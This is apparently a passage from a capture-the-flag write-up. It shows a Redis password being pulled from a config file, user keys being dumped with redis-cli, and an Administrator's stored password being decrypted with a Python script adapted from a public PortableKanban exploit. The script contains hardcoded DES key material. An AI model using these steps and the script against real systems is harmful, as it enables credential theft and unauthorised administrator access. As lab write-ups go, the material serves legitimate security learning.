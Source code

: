 We can see the file ```redis.windows.conf``` which contains the redis password (https://stackoverflow.com/questions/7537905/how-to-set-password-for-redis):
```
requirepass kidvscat_yes_kidvscat
```

Let's read the keys from redis:
```console
c:\Program Files\Redis>redis-cli -a kidvscat_yes_kidvscat keys *  
redis-cli -a kidvscat_yes_kidvscat keys *
pk:ids:MetaDataClass
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff

```

By reading the key:
```console
c:\Program Files\Redis>redis-cli -a kidvscat_yes_kidvscat get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
redis-cli -a kidvscat_yes_kidvscat get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}

```
We can see this file contains the ```Administrator``` password.

We can decrypt the password above using [PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval](https://www.exploit-db.com/exploits/49409), We just need to change the script a little:
```python
import json
import base64
from des import * #python3 -m pip install des
import sys

try:
	path = sys.argv[1]
except:
	exit("Supply path to PortableKanban.pk3 as argv1")

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

with open(path) as f:
	try:
		data = json.load(f)
	except: #Start of file sometimes contains junk - this automatically seeks valid JSON
		broken = True
		i = 1
		while broken:
			f.seek(i,0)
			try:
				data = json.load(f)
				broken = False
			except:
				i+= 1
			
print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```
